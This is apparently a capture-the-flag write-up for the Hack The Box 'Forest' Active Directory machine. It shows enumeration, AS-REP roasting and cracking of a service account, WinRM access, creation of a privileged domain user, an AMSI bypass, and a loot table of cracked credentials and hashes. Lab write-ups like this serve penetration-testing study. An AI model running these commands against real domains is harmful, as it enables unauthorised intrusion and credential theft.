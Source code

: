 # Enumeration

## Nmap
Scan open ports
```bash
nmap -sC -sV -A -oA nmap/scan.txt 10.129.211.144

Nmap scan report for 10.129.211.144
Host is up (0.0081s latency).                
Not shown: 989 closed tcp ports (reset)                 
PORT     STATE SERVICE      VERSION            
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2025-05-25 20:24:35Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    

Network Distance: 2 hops                                                                                                                                                                                                                              [12/239]
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2025-05-26T13:51:47-07:00
| smb2-time: 
|   date: 2025-05-26T20:51:46
|_  start_date: 2025-05-26T20:39:23
| smb2-security-mode: 
|   3:1:1:
|_    Message signing enabled and required
|_clock-skew: mean: 2h26m49s, deviation: 4h02m30s, median: 6m48s

TRACEROUTE (using port 80/tcp)
HOP RTT     ADDRESS
1   7.13 ms 10.10.14.1
2   9.51 ms 10.129.95.210


```
- The domain is `htb.local` 
- The [FQND](https://en.wikipedia.org/wiki/Fully_qualified_domain_name) is `FOREST.htb.local`
## Ladapsearch Users Enum
Check if the LDAP service allow anonymous authentication
```bash
ldapsearch -H LDAP://10.129.211.144 -x -s base namingcontexts
```

![[Pasted image 20250525232229.png]]

The `namingcontexts` attribute lists the **base Distinguished Name (DNs)** of all **naming contexts** that the LDAP server knows about.

Think of naming context as **entry point or "root containers"** in the LDAP directory tree where different categories of data are stored. Each one represents different **subtree** of the directory

So in now we can query the context of `htb` and  `local` **root containers**.

### Create a users list with ldapsearch
We can retrieve a users list with this query and save that in a file
```bash
ldapsearch -H LDAP://10.129.211.144 -x -b 'DC=htb,DC=local' '(objectClass=User)' sAMAccountName | grep sAMAccountName | awk '{print $2}' > users_list
```

- `-x`: this flags enable anonymous authentication
- `-b`: this flags specified the "root containers" where preform the LDAP query.

`awk '{print $2}'` means take only the second column of the output.

Clear the list of the useless name like name machine default users etc..

Clear user list
![[Pasted image 20250525234215.png]]


## Rpcclient 
I try to enumerate the users with anonymous authentication of smb protocol, in this case i use `rpcclient`:

```bash
rpcclient -U "" -N 10.129.211.144
```

enum the domain's users with `enumdomusers`
![[Pasted image 20250526014820.png]]

i founded a new users `svc-alfresco`... if i query the user rid i notice is a member of `Domain Users` and `Service Accounts`... this make me think that it's a **service users**.
![[Pasted image 20250526015139.png]]

Infect if i run again a LDAP query but without specify the **objectClass** and search "svc" keyword i see this is a **Service Account**.

```bash
ldapsearch -H LDAP://10.129.211.144 -x -b "DC=htb,DC=local" | grep -i "svc"
```

![[Pasted image 20250526015927.png]]

## Foothold
Searching on internet i find the [official documentation](https://docs.alfresco.com/process-services/latest/config/authenticate/#kerberos-and-active-directory) where there is specify "**Do not require Kerberos preauthentication**" enable in the Configuration steps
![[Pasted image 20250526022339.png]]
This means we can utilize the [GetNPUsers.py](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py) script to ask **TGS** ticket for users that have **Do not require Kerberos preauthentication** set.

```bash
GetNPUsers.py htb.local/svc-alfresco -dc-ip 10.129.211.144 -no-pass -format hashcat
```

![[Pasted image 20250526023233.png]]

Now i have the TGS i can try to crack that offline using hashcat and module `18200`
```bash
hashcat -m 18200 alfresco_TGS /usr/share/wordlists/rockyou.txt
```

![[Pasted image 20250526023704.png]]

Try to connect on the machine with this credential.. i try with `smb` protocol the credential are correct but the machine is not pwned so i try check if the `winrm` port (5985 5986) are opens on the target 
```nmap
nmap -p 5985 5986 10.129.211.144
```

![[Pasted image 20250526024319.png]]
The 5985 is open this mean we can try to connect with `winrm` protocol using `crackmapexec`
```bash
crackmapexec winrm 10.129.211.144 -u 'svc-alfresco' -p 's3rvice' -X 'whoami /priv'
```

![[Pasted image 20250526024505.png]]

connect to the host using `evil-winrm`
```bash
evil-winrm  -u svc-alfresco -p s3rvice --ip 10.129.211.144
```

## Privilege Escalation

Run **bloodhunt** to view a map of the domain and look for a privilege escalation path.

```bash
bloodhount-python -d htb.local -u svc-alfresco -p s3rvice
```

Search for the `sv-alfresco` user and mark it as **owned**. We cans see the user is a member of `Account Operator gorup` and according with [microsoft documentation](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#account-operators) the members of this group are allowed to create and modify users and add them to non-protected groups.

![[Pasted image 20250528232042.png]]


Click on `Quries` and select `Shorest Path to Hig Value targets`.

![[Pasted image 20250528231428.png]]
Go back to the WinRM shell and add a new user to` Exchange Windows Permissions` as well as
the `Remote Management Users` (to have the winrm privilege) group.
```bash
net user gabbo abc123! /add /domain
net gorup "Exchange Windows Permissions" gabbo /add
net localgroup "Remote Management Users" gabbo /add
```

Now through the evil-winrm session set the `Bypass-4MSI` and upload the [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1).

```bash
PS C:\Users\svc-alfresco\Documents> menu
<SINP>
PS C:\Users\svc-alfresco\Documents> Bypass-4MSI
PS C:\Users\svc-alfresco\Documents> upload /home/htb/powerview.ps1
```

TODO...
add powerview.ps1
privilege escalation wit DACL 
join with administrat account with psexc in msfconsole
set SMBDOMAIN htb.local
set SMBPASS `<hash>`
set SMBUSER administrator

## Loot

| User                    | Password                                                          | Notes        |
| ----------------------- | ----------------------------------------------------------------- | ------------ |
| svc-alfresco@HTB.LOCAL  | s3rvice                                                           | Service User |
| htb.local\Administrator | aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 |              |


| Flag name | hash                             |
| --------- | -------------------------------- |
| user.txt  | 74a10803767e6a4e8c497303ec47ac14 |
| root.txt  | 281c218ca00afda259de29fe09266655 |
